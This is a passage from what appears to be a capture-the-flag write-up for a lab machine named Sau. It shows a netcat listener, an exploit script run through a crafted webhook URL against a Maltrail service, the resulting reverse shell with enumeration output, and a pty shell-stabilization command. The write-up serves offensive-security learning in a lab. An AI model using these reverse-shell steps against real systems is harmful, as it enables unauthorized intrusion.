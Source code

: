 On the attacker machine we set a `Netcat` listener on some port.
```bash
nc -lnvp 13337
listening on [any] 13337 ...
```

Running the exploit, using the crafted web hook url that we created.
```bash
./exploit.py 10.10.14.12 13337 http://sau.htb:55555/stl44dl
Running exploit on http://sau.htb:55555/stl44dl/login
```

We got a Reverse Shell connection!
```bash
listening on [any] 13337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.224] 56134
$ whoami
whoami
puma
$ id     
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$ uname -a
uname -a
Linux sau 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
$ python3 --version
python3 --version
Python 3.8.10
```

### **Netcat Stabilization**

```bash
$ which bash
which bash
/usr/bin/bash
$ python3 -c "import pty;pty.spawn('/usr/bin/bash');" && export TERM=xterm
python3 -c "import pty;pty.spawn('/usr/bin/bash');" && export TERM=xterm
puma@sau:/opt/maltrail$ ^Z
zsh: suspended  nc -lnvp 13337
puma@sau:/opt/maltrail$ ll
total 204
drwxr-xr-x 9 root root  4096 Jun 19  2023 ./
drwxr-xr-x 3 root root  4096 Jun 19  2023 ../
-rw-rw-r-- 1 root root   179 Jan 31  2023 .gitattributes
-rw-rw-r-- 1 root root    13 Jan 31  2023 .gitignore
-rw-rw-r-- 1 root root  6418 Jan 31  2023 CHANGELOG
-rw-rw-r-- 1 root root   711 Jan 31  2023 CITATION.cff
-rw-rw-r-- 1 root root  1131 Jan 31  2023 LICENSE
-rw-rw-r-- 1 root root 42844 Jan 31  2023 README.md
drwxrwxr-x 2 root root  4096 Jun 19  2023 core/
drwxrwxr-x 2 root root  4096 Jun 19  2023 docker/
-rw-r--r-- 1 root root  7205 Apr 15  2023 h
drwxrwxr-x 5 root root  4096 Jun 19  2023 html/
-rw-rw-r-- 1 root root   437 Jan 31  2023 maltrail-sensor.service
-rw-rw-r-- 1 root root   430 Jan 31  2023 maltrail-server.service
-rw-rw-r-- 1 root root  5810 Jan 31  2023 maltrail.conf
drwxrwxr-x 2 root root  4096 Jun 19  2023 misc/
drwxrwxr-x 2 root root  4096 Jun 19  2023 plugins/
-rw-rw-r-- 1 root root     9 Jan 31  2023 requirements.txt
-rwxrwxr-x 1 root root 63782 Jan 31  2023 sensor.py*
-rwxrwxr-x 1 root root  5101 Jan 31  2023 server.py*
drwxrwxr-x 4 root root  4096 Jun 19  2023 thirdparty/
drwxrwxr-x 5 root root  4096 Jun 19  2023 trails/
```
